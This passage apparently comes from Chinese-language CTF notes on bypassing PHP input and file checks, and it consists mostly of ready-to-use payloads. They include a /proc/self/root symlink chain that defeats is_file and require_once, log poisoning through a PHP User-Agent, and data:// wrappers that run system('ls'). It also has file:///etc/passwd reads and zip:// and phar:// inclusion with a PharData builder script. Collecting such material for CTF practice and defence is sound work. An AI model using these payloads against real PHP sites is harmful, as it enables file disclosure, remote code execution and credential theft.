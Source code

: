   1. 邮箱local-part部分可以用双引号包裹，双引号内即可填入任意字符，如`"Joe'Blow"@example.com`

- **FILTER_VALIDATE_URL**

  1. `0://www.baidu.com;`

### is_file() / file_exists()

- 超过20次软链接后可以绕过：

  `?file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php`

### require_once()

- 包含的软连接层数较多时，hash匹配会直接失效造成重复包含，同 `is_file()`

  参考：[php源码分析 require_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235)

### include()

- 日志包含

  URL：`?x=/var/log/nginx/access.log`

  修改`User-Agent`为`<?php highlight_file('xxx.php'); ?>`

- 有后缀绕过

  `?c=data:text/plain,<?php system('ls')?>`

  `?c=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4`

  `?c=data:,<?php system('ls')?>`

- file协议包含

  `file:///etc/passwd`

  `file://localhost/etc/passwd`

- zip/phar协议包含（有特定后缀）

  这个方法适用于验证包含文件为特定后缀时。

  - **zip**

    首先新建一个zip文件，里面压缩着一个php脚本。

    然后构造`zip://php.zip#php.jpg`：

    `http://127.0.0.1/file.php?file=zip://php.zip%23php.jpg`

  - **phar** (PHP版本>5.3.0)

    首先要用phar类打包一个phar标准包：

    复制

    ```
    <?php
    $p = new PharData(dirname(__FILE__).'./test.zip', 0,'test',Phar::ZIP);
    $p->addFromString('test.txt', '<?php phpinfo();?>');
    ?>
    ```

